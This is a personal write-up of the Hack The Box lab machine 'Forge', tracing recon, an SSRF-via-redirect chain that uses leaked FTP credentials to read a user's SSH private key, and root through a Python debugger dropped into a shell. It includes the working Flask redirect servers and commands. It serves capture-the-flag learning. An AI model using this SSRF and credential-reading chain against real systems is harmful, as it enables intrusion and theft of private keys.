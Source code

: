 ```yaml
---
cover: ../.gitbook/assets/ChatGPT Image Jun 5, 2025, 12_33_13 AM.png
coverY: 316
---
```


# HTB-Forge: Double SSRF to Root Breaking Forge from the Inside Out 🧨

Just finished cracking **HTB: Forge**, and it turned out to be a slick lesson in chaining internal trust, redirection logic, and misconfigurations. A simple redirect opened the door, and an internal service’s blind trust in itself handed me the keys. This post takes you through the full chain—from initial recon to full root. 🔐



<figure><img src="../.gitbook/assets/ChatGPT Image Jun 5, 2025, 12_33_13 AM.png" alt=""><figcaption></figcaption></figure>

***

### Recon: Nmap to the Rescue 🔍

Kicked things off with a full port scan:

Start with a full port scan:

```bash
nmap -sC -sV -Pn -p- forge.htb
```

#### Results

```
21/tcp filtered ftp
22/tcp open     ssh     OpenSSH 8.2p1 Ubuntu
80/tcp open     http    Apache httpd 2.4.41
```

#### Observations 📌

* Port 21 is behind a firewalled.
* Port 80 is hosting a web application that redirects to `http://forge.htb`.

When navigating the site, clicking on images gives URLs like:

<figure><img src="../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

```
http://forge.htb/static/images/image1.jpg
```

The presence of a `/static/` path hints at an MVC-style framework.

***

### Subdomain Discovery

Running a subdomain fuzz revealed:

```
admin.forge.htb
```

***

### Exploitation: SSRF + Redirect = Win

* The application followed redirects on user-submitted URLs. So, I spun up a Flask server to exploit that behavior:

```python
from flask import Flask, redirect, request
app = Flask(__name__)

@app.route("/")
def admin():
    return redirect('http://admin.forge.htb')

app.run(debug=True, host="0.0.0.0", port=80)

```

<figure><img src="../.gitbook/assets/image (86).png" alt=""><figcaption></figcaption></figure>

* this had an upload and announcements

Visiting `/announcements` on this subdomain displayed:

```html
<li>An internal FTP server has been setup with credentials as user:heightofsecurity123!</li>
<li>The /upload endpoint now supports ftp, ftps, http, and https.</li>
<li>You can upload via URL using ?u=&lt;url&gt;.</li>
```

```python
#!/usr/bin/env python

from flask import Flask, redirect, request

app = Flask(__name__)

@app.route("/2")
def ftp_direct():
    f = request.args.get('f', default='')
    return redirect(f'http://admin.forge.htb/upload?u=ftp://user:heightofsecurity123!@127.0.0.1/.ssh/id_rsa')  
    
@app.route("/")
def admin():
    return redirect('http://admin.forge.htb')


if __name__ == "__main__":
    app.run(debug=True, host="0.0.0.0", port=80)  
```

***

### Shell Time

Once I had the key:

```bash
chmod 600 user.key
ssh -i user.key user@10.10.11.111
```

Boom. User shell obtained.

***

### Privilege Escalation: Debug Mode Exploit

<figure><img src="../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>

Found this script at `/opt/remote-manage.py`:

```python
...
if clientsock.recv(1024).strip().decode() != 'secretadminpassword':
    clientsock.send(b'Wrong password!\n')
else:
    # Admin menu with options
...
except Exception as e:
    print(e)
    pdb.post_mortem(e.__traceback__)
```

If the script fails, it invokes `pdb`—a Python debugger. With two simultaneous sessions, I triggered it to drop into interactive mode.

Then, I popped a shell:

```python
import os
os.system("/bin/bash")
```

Rooted.

<figure><img src="../.gitbook/assets/image (88).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (89).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>
